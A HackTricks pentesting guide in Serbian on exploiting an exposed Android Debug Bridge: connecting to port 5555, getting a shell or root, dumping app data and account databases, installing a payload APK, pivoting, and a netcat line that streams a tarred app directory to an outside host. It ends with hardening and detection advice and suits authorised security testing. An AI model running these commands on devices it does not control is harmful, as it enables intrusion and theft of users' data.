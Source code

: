 # 5555 - Android Debug Bridge

{{#include ../banners/hacktricks-training.md}}

## Osnovne informacije

Iz [dokumentacije](https://developer.android.com/studio/command-line/adb):

Android Debug Bridge (adb) je alat komandne linije za komunikaciju sa uređajima i emulatorima zasnovanim na Androidu. Tipične radnje uključuju instalaciju paketa, debagovanje i dobijanje interaktivnog Unix shell-a na uređaju.

- Istorijski podrazumevani TCP port: 5555 (klasični "adb tcpip" režim).
- Moderno bežično debagovanje (Android 11+) koristi TLS uparivanje i mDNS otkrivanje usluga. Port za povezivanje je dinamičan i otkriva se putem mDNS; možda neće biti 5555. Uparivanje se vrši sa adb pair host:port, a zatim adb connect. Pogledajte beleške u nastavku za ofanzivne implikacije.

Primer nmap otiska:
```
PORT     STATE SERVICE VERSION
5555/tcp open  adb     Android Debug Bridge device (name: msm8909; model: N3; device: msm8909)
```
## Poveži se

Ako pronađeš ADB izložen i dostupan, pokušaj brzo da se povežeš i izvršiš enumeraciju:
```bash
adb connect <ip>[:<port>]      # Default is 5555 for classic mode
adb devices -l                 # Confirm it shows as "device" (not unauthorized/offline)
adb shell                      # Get an interactive shell (uid usually shell)
whoami; id; getprop ro.debuggable ro.secure service.adb.tcp.port
adb root || true               # Works on eng/userdebug/insecure builds, many emulators/IoT
```
- Ako uređaj primenjuje ADB autentifikaciju (ro.adb.secure=1), bićete potrebni da budete unapred autorizovani (USB RSA auth) ili da koristite Android 11+ bežično uparivanje za debagovanje (što zahteva jednokratni kod prikazan na uređaju).
- Neki proizvođački imidži, inženjerske/userdebug verzije, emulatori, televizori, STB-ovi i razvojni kompleti izlažu adbd bez autentifikacije ili sa adbd koji radi kao root. U tim slučajevima, obično ćete direktno ući u shell ili root shell.

Za opšti ADB referentni vodič, pogledajte:

{{#ref}}
../mobile-pentesting/android-app-pentesting/adb-commands.md
{{#endref}}

## Brza Post-Exploatacija

Kada imate shell, proverite privilegije i SELinux kontekst:
```bash
id; getenforce; getprop ro.build.type ro.product.model ro.build.fingerprint
```
### Enumerate and capture data

- Lista aplikacija trećih strana i putanja:
```bash
pm list packages -3
pm path <pkg>
```
- Ako imate root (adb root ili su radi), možete pristupiti /data direktno. Ako ne, preferirajte run-as za aplikacije koje se mogu debagovati:
```bash
# Bez roota, za aplikaciju koja se može debagovati
run-as <pkg> sh -c 'cd /data/data/<pkg> && tar cf - .' | tar xf - -C ./loot/<pkg>

# Sa rootom
cp -a /data/data/<pkg> /sdcard/<pkg>
exit
adb pull "/sdcard/<pkg>"
```
- Korisni sistemski artefakti (potreban root):
- /data/system/users/0/accounts.db i povezani AccountManager podaci
- /data/misc/wifi/ (konfiguracije/ključevi mreže na starijim verzijama)
- Specifične SQLite DB-ove aplikacija i shared_prefs pod /data/data/<pkg>

Možete koristiti ovo za preuzimanje osetljivih informacija (npr., tajne aplikacije). Za beleške o razmatranjima podataka Chrome-a, pogledajte problem referenciran [ovde](https://github.com/carlospolop/hacktricks/issues/274).

### Code execution and payload delivery

- Instalirajte i automatski dodelite dozvole za vreme izvođenja:
```bash
adb install -r -g payload.apk         # -g dodeljuje sve dozvole za vreme izvođenja navedene u manifestu
adb shell monkey -p <pkg> -c android.intent.category.LAUNCHER 1
```
- Pokrenite aktivnosti/usluge/emitovanja direktno:
```bash
adb shell am start -n <pkg>/<activity>
adb shell am startservice -n <pkg>/<service>
adb shell am broadcast -a <action>
```

### Port forwarding and pivoting

Čak i bez roota, adb može preusmeriti lokalne portove na portove uređaja i obrnuto. Ovo je korisno za pristup uslugama vezanim lokalno na uređaju ili za izlaganje usluga napadača uređaju.

- Preusmeravanje host->uređaj (pristup lokalnoj usluzi uređaja sa vašeg hosta):
```bash
adb forward tcp:2222 tcp:22       # Ako uređaj pokreće SSH (npr., Termux/Dropbear)
adb forward tcp:8081 tcp:8080     # Izložite lokalni debug server aplikacije
```
- Obrnuto preusmeravanje uređaj->host (omogućite uređaju da dođe do usluge na vašem hostu):
```bash
adb reverse tcp:1080 tcp:1080     # Aplikacije na uređaju sada mogu doći do host:1080 kao 127.0.0.1:1080
```
- Ekstrakcija fajlova preko soketa (bez pisanja na sdcard):
```bash
# Na hostu: slušajte
ncat -lvp 9000 > dump.tar
# Na uređaju: pošaljite direktorijum kao tar (root ili run-as prema potrebi)
adb shell "tar cf - /data/data/<pkg>" | ncat <HOST_IP> 9000
```

## Wireless Debugging (Android 11+)

Moderni Android implementira TLS-zaštićeno bežično debagovanje sa uparivanjem sa strane uređaja i mDNS otkrivanjem:
```bash
# On the device: Developer options -> Wireless debugging -> Pair device with pairing code
# On attacker host (same L2 network, mDNS allowed):
adb pair <device_ip>:<pair_port>   # Enter the 6-digit code shown on device
adb mdns services                  # Discover _adb-tls-connect._tcp / _adb._tcp services
adb connect <device_ip>:<conn_port>
```
Notes
- Portovi su dinamični; ne pretpostavljajte 5555. mDNS imena usluga izgledaju ovako:
- _adb-tls-pairing._tcp (pariranje)
- _adb-tls-connect._tcp (povezivanje)
- _adb._tcp (legacy/plain)
- Ako je mDNS filtriran, klasično omogućavanje putem USB-a može i dalje raditi na nekim verzijama: `adb tcpip 5555` zatim `adb connect <ip>:5555` (do ponovnog pokretanja).

Ofanzivne implikacije: ako možete da interagujete sa UI uređaja (npr. fizički pristup ili pogrešna konfiguracija mobilnog MDM) da omogućite bežično debagovanje i vidite kod za pariranje, možete uspostaviti dugotrajni ADB kanal bez kabla. Neki OEM-ovi izlažu ADB preko TCP-a u inženjerskim/dev slikama bez pariranja—uvek proverite.

## Hardening / Detection

Defanzivci bi trebali pretpostaviti da je svaki dostupni adbd (TCP) kritički rizik.

- Onemogućite ADB i bežično debagovanje kada nisu potrebni. Oduzmite ovlašćenja za USB debagovanje u opcijama za programere.
- Osigurajte da mrežna politika blokira dolazni TCP/5555 i mDNS zasnovano ADB otkrivanje na nepouzdanim segmentima.
- Na uređajima pod vašom kontrolom:
```bash
settings put global adb_enabled 0
setprop service.adb.tcp.port -1   # onemogućite TCP slušanje (ili koristite: adb usb)
stop adbd; start adbd             # restartujte demon
```
- Pratite mDNS zapise `_adb._tcp`, `_adb-tls-connect._tcp`, `_adb-tls-pairing._tcp` na korporativnim mrežama i upozorenja za neočekivane 5555 slušaoce.
- Inventar za nesigurne verzije: `getprop ro.debuggable`, `ro.build.type`, i `ro.adb.secure`.

## Shodan

- android debug bridge
- port:5555 product:"Android Debug Bridge"

## References

- Android Developers – Android Debug Bridge (adb): https://developer.android.com/studio/command-line/adb
- AOSP – ADB over Wi‑Fi, pairing and mDNS service names: https://android.googlesource.com/platform/packages/modules/adb/+/refs/tags/android-vts-15.0_r2/docs/dev/adb_wifi.md
{{#include ../banners/hacktricks-training.md}}
